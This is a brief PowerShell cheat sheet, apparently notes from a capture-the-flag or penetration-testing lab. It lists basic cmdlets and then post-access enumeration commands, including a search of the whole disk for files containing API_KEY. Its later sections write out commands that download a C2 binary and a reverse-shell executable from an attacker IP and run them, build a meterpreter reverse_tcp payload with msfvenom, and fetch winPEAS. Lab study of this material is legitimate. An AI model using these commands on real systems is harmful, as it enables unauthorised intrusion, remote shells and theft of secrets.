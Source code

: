 
# PS, PowerShell
- The normal format of a cmdlet is represented using Verb-Noun;

Basic
- Get-Command
- Get-Help Command-Name
- Get-Command New-*
- Get-Command | Get-Member -MemberType Method
- Get-ChildItem | Select-Object -Property Mode, Name
- Get-Service | Where-Object -Property Status -eq Stopped

Sample
- Get-ChildItem -Path c:\ -Recurse *interesting-file.txt* -ErrorAction SilentlyContinue
- Get-Content 'C:\Program Files\interesting-file.txt.txt'


# Enumeration
- The first step when you have gained initial access to any machine would be to enumerate
    - Get-LocalUser                                                                         users
    - Get-NetIPAddress                                                                      Get IP address info
    - Get-NetTCPconnection -State Listen                                                    Listening port
    - Get-NetTCPconnection -State Listen -LocalPort 445                                     Remote address for Port 445
    - Get-hotfix | measure                                                                  Number of installed patch                                 
    - Get-ChildItem -Path C:\ -Include *.bak* -File -Recurse -ErrorAction SilentlyContinue                                         
    - Get-ChildItem C:\* -recurse | Select-String -pattern API_KEY                          Search for all files containing API_KEY
    - Get-Process                                                                           list all the running processes?
    - Get-Scheduledtask -TaskName new-sched-task
    - Get-Acl C:\

# Basic Scripting Challenge 


Get-ChildItem -Path c:\ -Recurse *user.txt* -ErrorAction SilentlyContinue
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.56.2/c2.exe','c2.exe')"
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.56.2/revshell9001exit.exe','revshell9001exit.exe')"

Start-Process "revshell9001exit.exe"


# Payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.56.2 LPORT=9001 -f exe > reverseshell9001.exe
powershell Invoke-WebRequest -Uri http://10.8.56.2/reverseshell9001.exe -Outfile reverseshell9001.exe

# winPEAS.bat
powershell Invoke-WebRequest -Uri http://10.8.56.2/winPEAS.bat -Outfile winPEAS.bat